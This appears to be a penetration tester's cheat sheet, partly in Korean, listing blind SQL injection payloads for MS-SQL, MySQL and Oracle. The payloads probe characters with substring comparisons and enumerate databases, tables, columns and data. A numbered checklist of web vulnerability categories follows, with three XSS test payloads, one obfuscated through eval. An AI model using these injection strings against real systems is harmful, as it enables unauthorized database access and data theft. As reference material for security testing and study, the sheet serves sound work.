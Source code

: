 [MS-SQL] <br>
#Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME <br>
db_name() <br>
<br>
#Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
#Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
#Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
[MySQL] <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
#Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
-----------------------------------------------------------------------------------
[Oracle]<br>

select DISTINCT owner FROM all_tables;

select table_name from all_tables;

select column_name from all_tab_columns where table_name='[table name]';


Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection

